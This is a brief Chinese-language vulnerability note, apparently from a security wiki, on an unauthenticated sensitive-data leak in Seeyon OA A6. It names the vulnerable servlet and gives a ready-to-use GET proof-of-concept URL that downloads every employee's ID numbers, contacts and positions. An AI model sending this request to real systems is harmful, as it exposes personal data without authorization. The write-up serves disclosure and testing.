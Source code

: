 ```yaml
---
title: "致远OA A6 敏感信息泄露（二）"
id: zhfly3351
---
```


# 致远OA A6 敏感信息泄露（二）

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet 
```

##### 漏洞详情:

```
版本:A6只有系统管理才有的权限，但是任意用户都可以访问。可以下载所有员工的个人信息，包括身份证、联系方式、职位等敏感信息。 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0 
```